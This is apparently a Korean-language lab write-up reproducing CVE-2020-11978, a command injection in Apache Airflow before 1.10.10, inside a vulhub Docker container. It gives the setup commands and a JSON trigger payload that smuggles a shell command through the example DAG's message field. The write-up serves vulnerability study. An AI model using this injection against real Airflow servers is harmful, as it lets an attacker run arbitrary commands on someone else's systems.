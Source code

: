 #CVE-2020-11978 - Apache Airflow
개요]
Apache Airflow는 Python 기반의 워크플로우 스케줄링 도구로, DAG(Directed Acyclic Graph)를 기반으로 작업을 정의하고 실행합니다.  
버전 1.10.10 이전에는 `example_trigger_target_dag` 내 사용자 입력값이 필터링되지 않아, **명령어 인젝션(command injection)** 이 가능한 취약점이 발견되었습니다. 이 실습은 해당 취약점을 기반으로 취약한 컨테이너 환경을 구성하고, 공격 흐름을 직접 따라해보며 이해하는 데 목적이 있습니다.

실습 환경]
- Ubuntu 20.04 (VirtualBox 가상 머신)
- Docker + docker-compose
- Airflow 1.10.10 (vulhub 이미지 사용)

1. 취약 환경 구축]

vulhub 프로젝트를 클론한 뒤, Airflow 취약점 환경 디렉토리로 이동하여 컨테이너를 실행합니다.

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/airflow/CVE-2020-11978
sudo docker compose run airflow-init
sudo docker compose up -d


2. Airflow 관리 페이지 접속
브라우저에서 http://localhost:8080 접속하여 DAG 목록을 확인합니다.


3. 취약한 DAG 활성화 및 공격 시도
example_trigger_target_dag를 On으로 활성화하였습니다.


오른쪽 Trigger DAG 버튼을 클릭하였습니다.


그리고 다음과 같이 명령어 인젝션 페이로드를 입력하였습니다.
{"message":"'\";touch /tmp/airflow_dag_success;#"}

공격 시도 결과
sudo docker compose exec airflow-worker ls –l /tmp를 확인하면
`/tmp/airflow_dag_success` 파일이 생성되어 명령어 인젝션을 성공하게 됩니다.
